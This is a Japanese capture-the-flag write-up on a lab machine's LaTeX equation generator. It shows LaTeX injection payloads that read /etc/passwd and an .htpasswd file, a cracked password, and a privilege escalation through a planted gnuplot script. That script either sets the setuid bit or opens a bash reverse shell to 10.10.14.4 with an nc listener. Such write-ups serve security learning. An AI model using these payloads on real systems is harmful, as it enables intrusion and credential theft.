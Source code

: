 #### nmap
![[Pasted image 20230827205014.png]]

webサイトにアクセスしてみる
![[Pasted image 20230827205207.png]]
ほとんどのリンクは死んでいるが下線のリンクだけは生きている
hostsに登録しないとアクセス出来なのでhostsに登録する
![[Pasted image 20230827205438.png]]
リンク先を開くとLaTex式ジェネレーターのページが開く
![[Pasted image 20230827213240.png]]

>**LaTeX** 高品質の数式と記号を使用して、科学的および技術的文書をタイプセットおよびフォーマットするために使用される文書準備システムです。次に、‘ latex ’のペイロードを検索します。

HackTricksのページにLaTexInjectionがある
![[Pasted image 20230827214511.png]]

```bash
$\lstinputlisting{/etc/passwd}$
```
を実行すると
![[Pasted image 20230827214733.png]]
上記の結果がえられる

gobuster or wfuzzからサブドメインがあることが分かる

/devがあったので「/var/www/dev」が存在する。
apacheサーバーでは、ユーザーパスワードのデフォルトの資格情報が「.htpasswd」に保存されている。

先ほどのペイロードの部分を変更して
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
を実行すると
![[Pasted image 20230827221915.png]]
が得られる

ユーザーは「vdaisley」
パスワードはハッシュなのでjohnで解読する
![[Pasted image 20230827222627.png]]

password = calculus20

#### SSH接続

![[Pasted image 20230827222710.png]]

#### 権限昇格

ディレクトリのパーミッションをチェックする
```shell
find / -type d -perm /020 -not -perm /040 2>/dev/null
```

>-perm /020： このオプションは、特定のパーミッションを持つディレクトリをフィルタリングする。先頭のフォワードスラッシュ（"/"）は、パーミッションが正確に一致することを示す。"020 "は、グループのパーミッション "wx-"（書き込みと実行はできるが、読み取りはできない）の8進数表現である。
>
>-not -perm /040: このオプションは、特定のパーミッションを持つディレクトリを除外することで、さらにディレクトリをフィルタリングする。ここでも、フォワードスラッシュ("/")は完全一致を示し、"040 "はグループの "r--"(読み込みのみ)パーミッションの8進数値を示す。したがって、グループの読み取りパーミッションを持っているディレクトリは、検索結果から除外されます。

![[Pasted image 20230827225149.png]]

pspy64を実行
![[Pasted image 20230827225949.png]]

![[Pasted image 20230827230042.png]]

定期的に/opt/gnuplot/配下のシェルが動いている
/opt/gnuplot/内にwatch.pltを作成して実行されるのをまつ（watch.pltは任意のファイル名）
```
'system "chmod u+s"' > /opt/gnuplot/watch.plt
```

![[Pasted image 20230827230905.png]]

![[Pasted image 20230827231320.png]]

または

```shell
system “bash -c ‘bash -i >& /dev/tcp/10.10.14.4/12345 0>&1’"
```

で/opt/gnuplot/watch.pltを作成
```shell
nc -nvlp 12345
```
でリバースシェルを取得する。

>"system": これは、プログラム内から別のコマンドまたはシステムコールを実行するために使用される関数またはコマンドです。この場合、システムコマンドを実行しています。
>"bash -c 'bash -i >& /dev/tcp/10.10.14.4/12345 0>&1'": これは実行されるシステムコマンドです。
> "bash -c": これは、Bashシェルに引数として指定されたコマンドを実行するように指示します。
> 'bash -i >& /dev/tcp/10.10.14.4/12345': この内部コマンドは、IPアドレス`10.10.14.4` port `12345`へのTCP接続を設定します 。
> "-i": このフラグにより、インタラクティブなシェルがリモートシステムに確実に生成されます。
> ">& /dev/tcp/10.10.14.4/12345": これにより、Bashシェルの標準出力と標準エラーの両方が `10.10.14.4` portに `12345`。これにより、出力メッセージとエラーメッセージをネットワーク経由で送信できます。
> "0>&1": これにより、標準入力(ファイル記述子0 )が標準出力(ファイル記述子1 )にリダイレクトされます。このステップにより、確立されたTCP接続を介して受信されたすべての入力が標準出力にリダイレクトされ、リモートシステムとの相互作用が可能になります。